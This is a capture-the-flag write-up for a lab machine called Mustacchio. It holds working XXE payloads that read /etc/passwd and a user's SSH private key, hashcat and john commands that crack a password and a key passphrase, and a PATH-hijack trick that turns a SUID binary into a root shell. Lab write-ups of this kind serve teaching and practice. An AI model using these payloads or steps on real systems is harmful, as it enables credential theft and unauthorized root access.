 ![](Images/theme.png)
What we can learn from this machine :
* XXE injection
* Enumerations
* SUID exploit

let's start with a nmap scan. normal nmap scan found port 80 webserver called Mustacchio and port 22 ssh open running ubuntu. I try to running a full nmap scan for see more ports are open above the port 1000.

![](Images/web.png)

```
# Nmap 7.91 scan initiated Sat Jun 12 14:57:25 2021 as: nmap -sC -sV -p- -oN scans/nmap-allports 10.10.236.36
Nmap scan report for 10.10.236.36
Host is up (0.15s latency).
Not shown: 65532 filtered ports
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   2048 d3:9e:50:66:5f:27:a0:60:a7:e8:8b:cb:a9:2a:f0:19 (RSA)
|   256 5f:98:f4:5d:dc:a1:ee:01:3e:91:65:0a:80:52:de:ef (ECDSA)
|_  256 5e:17:6e:cd:44:35:a8:0b:46:18:cb:00:8d:49:b3:f6 (ED25519)
80/tcp   open  http    Apache httpd 2.4.18 ((Ubuntu))
| http-robots.txt: 1 disallowed entry 
|_/
|_http-server-header: Apache/2.4.18 (Ubuntu)
|_http-title: Mustacchio | Home
8765/tcp open  http    nginx 1.10.3 (Ubuntu)
|_http-server-header: nginx/1.10.3 (Ubuntu)
|_http-title: Mustacchio | Login
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Sat Jun 12 15:07:37 2021 -- 1 IP address (1 host up) scanned in 611.67 seconds
```
We found nginx page in port 8765. let's see what is in there. 

![](Images/login.png)

Looks like we found a login page. Let's put that port away and let's enumerate port 80 first. After run gobuster I found this directory on port 80. **http://10.10.236.36/custom/js/** In this you can see this **user.bak** file.

![](Images/user%20bak.png)

After we open it we can see this hash.
```
admin:1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
```
Let's crack it with **hashcat**. Here is the my command to hashcat.
First copy hash part and make a file then run following command.
```bash
hashcat -a 0 -m 100 hash1.txt /opt/seclist/rockyou.txt
```
Output :

```
Dictionary cache hit:
* Filename..: /opt/seclist/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

1868e36a6d2b17d4c2745f1659433a54d4bc5f4b:bulldog19
                                                 
Session..........: hashcat
Status...........: Cracked
Hash.Name........: SHA1
Hash.Target......: 1868e36a6d2b17d4c2745f1659433a54d4bc5f4b
Time.Started.....: Sat Jun 12 16:34:48 2021 (0 secs)
Time.Estimated...: Sat Jun 12 16:34:48 2021 (0 secs)
Guess.Base.......: File (/opt/seclist/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:  5658.1 kH/s (0.24ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests
Progress.........: 688128/14344385 (4.80%)
Rejected.........: 0/688128 (0.00%)
Restore.Point....: 684032/14344385 (4.77%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: bultaco -> blah2007

Started: Sat Jun 12 16:34:35 2021
Stopped: Sat Jun 12 16:34:50 2021
```
Let's login in with our credentials.

Our credentials :
* Username: admin
* Password: bulldog19

 After login we can see this page.

![](Images/after%20login.png)

when we look at our hint. It says look at the page source. You can find this html comment on page source.

![](Images/hint.png)

Its something about barry's SSH key. When we go to that **/auth/dontforget.bak**. In the file you can see this xml code. 

```xml
<?xml version="1.0" encoding="UTF-8"?>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>
  <com>his paragraph was a waste of time and space. If you had not read this and I had not typed this you and I could’ve done something more productive than reading this mindlessly and carelessly as if you did not have anything else to do in life. Life is so precious because it is short and you are being so careless that you do not realize it until now since this void paragraph mentions that you are doing something so mindless, so stupid, so careless that you realize that you are not using your time wisely. You could’ve been playing with your dog, or eating your cat, but no. You want to read this barren paragraph and expect something marvelous and terrific at the end. But since you still do not realize that you are wasting precious time, you still continue to read the null paragraph. If you had not noticed, you have wasted an estimated time of 20 seconds.</com>
</comment>
```
Looks like we can execute a XXE attack. After some time I got a /etc/passwd.

Documentation : https://owasp.org/www-community/vulnerabilities/XML_External_Entity_(XXE)_Processing

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///etc/passwd">]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>

  <com>&xxe;</com>
</comment>
```
![](Images/passwd.png)

We got joe and barry as a users. It works well. Let's try to get a barry's id_rsa file.

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE foo [<!ENTITY xxe SYSTEM "file:///home/barry/.ssh/id_rsa">]>
<comment>
  <name>Joe Hamd</name>
  <author>Barry Clad</author>

  <com>&xxe;</com>
</comment>
```
![](Images/idrsa.png)

Now we got the id_rsa but its messy. If you Look into the page source for proper formatted key. 

![](Images/id_rsa%20pagesource.png)

Looks like we need a passphrase to id_rsa. Let's crack it with **john the ripper**. First you need to make a hash throught ssh2jhon. If you don't know how to do it.

This blog post will help you :
https://null-byte.wonderhowto.com/how-to/crack-ssh-private-key-passwords-with-john-ripper-0302810/

```bash
┌─[✗]─[visith@parrot]─[~/CTF/thm/Mustacchio]
└──╼ $john --wordlist=/opt/seclist/rockyou.txt hash 
Using default input encoding: UTF-8
Loaded 1 password hash (SSH [RSA/DSA/EC/OPENSSH (SSH private keys) 32/64])
Cost 1 (KDF/cipher [0=MD5/AES 1=MD5/3DES 2=Bcrypt/AES]) is 0 for all loaded hashes
Cost 2 (iteration count) is 1 for all loaded hashes
Will run 4 OpenMP threads
Note: This format may emit false positives, so it will keep trying even after
finding a possible candidate.
Press 'q' or Ctrl-C to abort, almost any other key for status
urieljames       (id_rsa)
Warning: Only 2 candidates left, minimum 4 needed for performance.
1g 0:00:00:02 DONE (2021-06-13 09:19) 0.4566g/s 6548Kp/s 6548Kc/s 6548KC/sa6_123..*7¡Vamos!
Session completed
```
We got our passphrase. Let's ssh to our user.

```bash
ssh -i id_rsa barry@10.10.24.119
Enter passphrase for key 'id_rsa': urieljames
```
In **/home/barry** we can get our user flag. Let's get into the root. In the hints, They said about SUID lets find suid permission files.

Use command :
find / -perm -4000 2>/dev/null

```bash
barry@mustacchio:~$ find / -perm -4000 2>/dev/null
/usr/lib/x86_64-linux-gnu/lxc/lxc-user-nic
/usr/lib/eject/dmcrypt-get-device
/usr/lib/policykit-1/polkit-agent-helper-1
/usr/lib/snapd/snap-confine
/usr/lib/openssh/ssh-keysign
/usr/lib/dbus-1.0/dbus-daemon-launch-helper
/usr/bin/passwd
/usr/bin/pkexec
/usr/bin/chfn
/usr/bin/newgrp
/usr/bin/at
/usr/bin/chsh
/usr/bin/newgidmap
/usr/bin/sudo
/usr/bin/newuidmap
/usr/bin/gpasswd
/home/joe/live_log
/bin/ping
/bin/ping6
/bin/umount
/bin/mount
/bin/fusermount
/bin/su
```
Looks like we have a suid permission on **/home/joe/live_log** file. Let's take a look into that file.

```bash
barry@mustacchio:~$ cd /home/joe
barry@mustacchio:/home/joe$ ls -la
total 28
drwxr-xr-x 2 joe  joe   4096 Jun 12 15:48 .
drwxr-xr-x 4 root root  4096 Jun 12 15:48 ..
-rwsr-xr-x 1 root root 16832 Jun 12 15:48 live_log
```
When we string that **live_log** file you can see this line on bin file.
```
tail -f /var/log/nginx/access.log
```
Let’s change the path variable and create a tail with some malicious code to get us root. let’s do it.

So first I’m going to create a file called tail in /tmp/ directory and create a script that gives us a root shell.

Use commands :
```bash
echo /bin/bash -i > tail
export PATH=/tmp:$PATH
chmod +x tail
cd joe/
./live_log 
```
Let's see that in action.
```bash
barry@mustacchio:/home/joe$ cd /tmp
barry@mustacchio:/tmp$ ls
barry@mustacchio:/tmp$ echo /bin/bash -i > tail
barry@mustacchio:/tmp$ export PATH=/tmp:$PATH
barry@mustacchio:/tmp$ chmod +x tail
barry@mustacchio:/tmp$ cd /home/joe
barry@mustacchio:/home/joe$ ./live_log 
root@mustacchio:/home/joe# ls
live_log
root@mustacchio:/home/joe# cd /root
root@mustacchio:/root# ls
root.txt
root@mustacchio:/root# cat root.txt
```
You pwn it !!

Thx for reading !!